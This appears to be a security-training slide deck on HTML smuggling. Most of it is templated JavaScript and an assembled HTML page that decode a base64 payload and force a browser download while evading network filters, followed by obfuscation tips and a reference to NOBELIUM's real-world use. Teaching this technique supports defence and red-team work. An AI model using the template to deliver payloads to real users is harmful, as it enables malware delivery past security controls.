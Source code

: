 # HTML Smuggling
---
### What is it?
A method for embedding ("smuggling") payloads into Web Pages using HTML/JavaScript to evade network security controls.

---
### How does it work?
---
<!-- slide style="font-size:.7em" -->
Encode the payload and embed into the following
```javascript
var f = atob("{{ b64payload }}");
```

---
<!-- slide style="font-size:.7em" -->
Convert the decoded payload to a byte array
```js

var binaryArray = new Uint8Array(f.length);
for ( let i = 0; i < f.length; i++ ) {
	binaryArray[i] = f.charCodeAt(i)
}

```

---
<!-- slide style="font-size:.7em" -->
Now its time for the file download portion. 

<small>Internet Explorer is *special*. We'll handle that first</small>

```js

if (window.navigator.msSaveBlob) {
	var blob = new Blob([binaryArray]);
	window.navigator.msSaveBlob(blob, "{{ filename }}");
} 
```

IE doesn't support the `File` APIs we will cover next

---
<!-- slide style="font-size:.7em" -->
For everything else, we use the `File` API to generate a ObjectURL and simulate a hyperlink click
```js
else {
	var file = new File([binaryArray], "{{ filename }}", {type: "{{mimetype}}"})
	var a = window.document.createElement("a");
	a.href = window.URL.createObjectURL(file);
	a.download = "{{ filename }}";
	document.body.appendChild(a);
	a.click();
	document.body.removeChild(a);
}
```
`window.URL.createObjectURL` creates a special `blob://` url which points to your file in the browser document's memory.

The `download` attribute will configure the hyperlink to save the file as the specified filename

---
### Put it all together
Embedded into an HTML file
<!-- slide style="font-size:.5em" -->
```html
<!Doctype html>
<html>
	<head></head>
	<body>
		<script>
			var f = atob("{{ b64payload }}");
			
			var binaryArray = new Uint8Array(f.length);
			for ( let i = 0; i < f.length; i++ ) {
				binaryArray[i] = f.charCodeAt(i)
			}
			
			if (window.navigator.msSaveBlob) {
				var blob = new Blob([binaryArray]);
				window.navigator.msSaveBlob(blob, "{{ filename }}");
			} else {
				var file = new File([binaryArray], "{{ filename }}", {type: "{{mimetype}}"})
				var a = window.document.createElement("a");
				a.href = window.URL.createObjectURL(file);
				a.download = "{{ filename }}";
				document.body.appendChild(a);
				a.click();
				document.body.removeChild(a);
			}
		</script>
	</body>
</html>
```

---
### Obfuscate it
- Additional Encoding
- Encryption
	- Environmental Keying
- JavaScript packers/minifiers/obfuscators
	- https://obfuscator.io/
	- https://webpack.js.org/

---
### In The Wild
[NOBELIUM](https://www.microsoft.com/en-us/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/)

![[Pasted image 20221102101157.png]]

---
### Lets try it

---
### Resources
<!-- slide style="font-size:.7em" -->
- https://www.microsoft.com/en-us/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/
- https://outflank.nl/blog/2018/08/14/html-smuggling-explained/
- https://github.com/nccgroup/demiguise
- https://github.com/cyberbutler/smuggle-me
